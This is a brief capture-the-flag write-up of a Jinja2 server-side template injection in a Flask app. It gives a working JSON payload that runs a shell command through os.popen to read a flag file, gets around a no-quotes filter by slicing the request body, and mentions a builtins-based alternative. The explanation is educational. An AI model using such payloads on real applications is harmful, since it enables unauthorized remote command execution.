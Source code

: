 The data inside the object is rendered twice, leading to a SSTI vulnerability. The only catch is that you can't use quotes, because `render_template_string` renders the quotes as the html object instead. To get around this, you can use `request.form.blob` to access the blob string itself.

Pretty much any of the payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2) should work, see my exploit below.


```
[
    {
        "repo_name": "{{lipsum.__globals__.os.popen(request.form.blob[181:193]).read()}}",
        "flaky_tests": 9001,
        "prs_blocked": 2,
        "time_lost": "cat flag.txt"
    }
]
```

Instead of using `request.form.blob` to get the payload, you can also recover builtins with e.g. `g.pop.__globals__.__builtins__.chr` and create a string that way.